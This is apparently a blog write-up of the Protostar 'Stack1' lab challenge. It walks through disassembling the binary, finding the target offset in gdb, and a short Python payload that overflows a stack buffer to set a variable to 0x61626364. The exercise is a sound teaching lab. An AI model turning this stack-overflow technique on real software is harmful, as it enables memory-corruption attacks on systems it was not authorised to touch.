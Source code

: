 ```yaml
---
title: Protostar - Stack 1
date: 2024-02-14 10:30:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack1]
---
```


## Conquering Stack1 at Protostar Machine

Greetings, hackers of the digital realm! Today, we will continue our journey  on [Protostar](https://exploit.education/protostar) machine  to conquer the [Stack1](https://exploit.education/protostar/stack-one/) binary.

This challenge requiring us to perform a stack overflow and override the next value in the buffer with specific value as we see later.

### **Challenge Overview**
- **Challenge Name:** [Stack1](https://exploit.education/protostar/stack-one/)
- **Machine:** [Protostar](https://exploit.education/protostar)

### Step 1: Explore Binary

let,s run stack1 binary and see it,s behavoior

![stack1 run](/assets/img/protostar/stack1-explore.png)

- We Found that the binary need an argument to work and after we run it with argument it run

### Step 2: Analysis
Disassemble stack1 binary

we can disassemble stack1 binary by `objdump`

```sh
objdump -M intel -d /opt/protostar/bin/stack1 | grep main -A 32
```

- `-M` stands for `--disassembler-options` we want `intel` syntax instead of `at&t`
- `-d` stand for `--disassemble`
- we grep `main` from the disassembled output because `main` as we know is the entrypoint for any `C` program and first function executed from it.

objdump output:

![Stack1 Objdump](/assets/img/protostar/stack1-objdump.png)
    
Analysis:

1. Function Prologue:

- `push ebp`  Save the base pointer.
- `mov ebp, esp`  Set up a new base pointer.
- `and esp, 0xfffffff0` Align the stack.
- `sub esp, 0x60` Allocate space for local variables.

2. Conditional Check:

- `cmp DWORD PTR [ebp+0x8],0x1`  Compare the value at `[ebp+0x8]` with `0x1`.
- `jne 8048487 <main+0x23>` Jump to `0x08048487` if the comparison is not equal.

3. Branches:

 If the condition is not met, the program jumps to `0x08048487`, Otherwise, it continues with the next instructions.

4. Function Calls and Memory Operations:

- `call 8048388 <errx@plt>` Calls the `errx` function.
- `call 8048368 <strcpy@plt>` Calls the `strcpy` function.
- `call 8048378 <printf@plt>` Calls the `printf` function.

5. Memory Comparisons:

- `mov eax,DWORD PTR [esp+0x5c]` move value at pointer `esp+0x5c` and store it in `eax`
- `cmp eax, 0x61626364`: Compare the value in `eax` with `0x61626364`.

6. Conditional Jumps:

- `jne 0x80484c0` <main+0x5c>: Jump to `0x080484c0` if the comparison is not equal.
- `jmp 0x80484d5` <main+0x71>: Jump to `0x080484d5` unconditionally.

7. Function Epilogue:

- `leave` Restore the stack frame. it is short for `mov esp,ebp` and `pop ebp`
- `ret` Return from the function.

Now we understand the flow of program :

1. during run it first check argument provided and if no args provided it call errx with a error message which print it and exit 
2. argument provided will be copied to buffer
3. check if `[esp+0x5c]==0x61626364` then call puts,print then return and else call print only and return 

`[esp+0x5c]` is interesting , we need to check to it when debugging

### Step 3: Debugging

- first let,s write simple script for fuzz let,s call it `fuzz.py`

`~/fuzz.py` :

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```

- now let,s debug `stack1` binary useing `gdb`
```sh
gdb /opt/protostar/bin/stack1
```
now let,s disassemble main, and break point at mov eax,ptr dword[esp+0x5c]
```sh
set disassembly-flavor intel
disassemble main
```
![Stack1 on GDB](/assets/img/protostar/stack1-gdb-main.png)

now let,s breakpoint at `0x080484a7 <main+67>:	mov   eax,DWORD PTR [esp+0x5c]` to examine value at pointer `esp+0x5c` 
```sh
break *0x080484a7
```

now let,s run our program `stack1` with argument that contain our fuzzing value
```sh
run $(python ~/fuzz.py)
```

![Stack1 on gdb final](/assets/img/protostar/stack1-gdb-final.png)

show value at pointer at `esp+0x5c` with :

```sh
x/wx $esp+0x5c
```

when we get value at pointer at $esp+0x5c we found it = `0x51515151`

let,s get the ascii value of `0x51`

![Python chr(0x51)=Q](/assets/img/protostar/python-chr-51h.png)

so `0x51515151` represent `QQQQ` and  we need to make `esp+0x5c` = `0x61626364` to make the cmp instruction work truthy


### Step 4: Craft Solution 

okay let,s update our script: `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
esp_plus_5c="\x64\x63\x62\x61" # represent 0x61626364 on little endian machines
print(fuzz+esp_plus_5c)
```

now run `stack1` binary with our crafted soluation:

```sh
/opt/protostar/bin/stack1 $(python ~/fuzz.py)
```

and it Works !
![Stack1 Solved](/assets/img/protostar/stack1-solved.png)


